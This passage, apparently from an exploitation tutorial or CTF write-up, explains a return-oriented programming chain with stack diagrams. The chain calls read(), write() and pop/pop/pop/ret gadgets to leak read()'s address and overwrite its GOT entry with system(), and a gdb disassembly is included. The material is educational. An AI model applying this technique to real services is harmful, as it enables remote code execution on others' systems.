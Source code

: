 +----------------------+ &lt;-- write()'s frame [3]
|     size_t count     | - 4 bytes (the size of a 32-bit address)
+----------------------+
|      void *buf       | - The address containing a pointer to read()
+----------------------+
|        int fd        | - 1 (stdout)
+----------------------+
| [address of "pppr"]  |
+----------------------+

+----------------------+ &lt;-- pop/pop/pop/ret's frame [2]
|  [address of write]  |
+----------------------+

+----------------------+ &lt;-- read()'s frame [1]
|     size_t count     | - strlen(cmd)
+----------------------+
|      void *buf       | - writeable memory
+----------------------+
|        int fd        | - 0 (stdin)
+----------------------+
| [address of "pppr"]  |
+----------------------+

+----------------------+
|         ...          |
+----------------------+
</pre>

Holy smokes, what's going on!?

Let's start at the bottom and work our way up! I tagged each frame with a number for easy reference.

Frame [1] we've seen before. It writes <tt>cmd</tt> into our writable memory. Frame [2] is a standard <tt>pop/pop/pop/ret</tt> to clean up the <tt>read()</tt>.

Frame [3] uses <tt>write()</tt> to write the address of the <tt>read()</tt> function to the socket. Frame [4] uses a standard <tt>pop/pop/pop/ret</tt> to clean up after <tt>write()</tt>.

Frame [5] reads another address over the socket and writes it to memory. This address is going to be the address of the <tt>system()</tt> call. The reason writing it to memory works is because of how <tt>read()</tt> is called. Take a look at the <tt>read()</tt> call we've been using in gdb (<tt>0x0804832C</tt>) and you'll see this:

<pre>
<span class="lnr">1 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/i 0x0804832C
<span class="lnr">2 </span>0x804832c <span class="Statement">&lt;</span><span class="Statement">read</span>@plt<span class="Statement">&gt;</span>:   jmp    DWORD PTR ds:0x804961c
</pre>
